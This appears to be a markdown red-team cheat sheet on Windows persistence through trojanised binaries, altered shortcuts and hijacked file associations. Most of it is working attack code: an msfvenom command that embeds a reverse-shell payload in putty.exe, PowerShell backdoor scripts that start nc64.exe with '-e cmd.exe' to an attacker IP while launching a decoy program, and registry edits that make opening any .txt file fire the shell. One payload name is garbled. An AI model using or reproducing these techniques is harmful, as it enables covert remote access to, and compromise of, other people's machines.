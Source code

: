 ### Executable Files
- Legit binary can be replaced with reverse shell. [Msfvenom](../../Tools/Msfvenom.md) can inject payload into a legit binary.
```bash
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/reverse_reverse_tcp LHOST=localhost LPORT=<port> -b "\x00" -f exe -o putty_x.exe
```
### Shortcuts
- Changing shortcut target to our reverse shell
- Point it to a script:
```powershell
# backdoor.ps1
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\calc.exe
```
- Shortcut target:
```powershell
powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor.ps1
```
### File Associations
- Registry stores key for every single file type under `HKLM\Software\Classes` which contains the ProgID.
- `ProgID` is the identified for the program that opens that file.
- Example:
```powershell
HKLM\Software\Classes\.txt -> txtfile (ProgID)
```
- `HKLM\Software\Classes` also has entry for the `txtfile` ProgID.
- Default command to run for the files is stored under `HKLM\Software\Classess\<progID>\shell\open\command`
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> %SystemRoot%\system32\notepad.exe %1
# %1 is the filename
```
- We can change this key to 
```powershell
HKLM\Software\Classes\txtfile\shell\open\command -> powershell.exe -WindowStyle Hidden C:\Windows\System32\backdoor2.ps1
```
- backdoor2.ps1
```powershell
Start-Process -NoNewWindows "c:\tools\nc64.exe" "-e cmd.exe <IP> <PORT>"
C:\Windows\System32\Notepad.exe $args[0]
```
- Opening a txt file will now trigger the reverse shell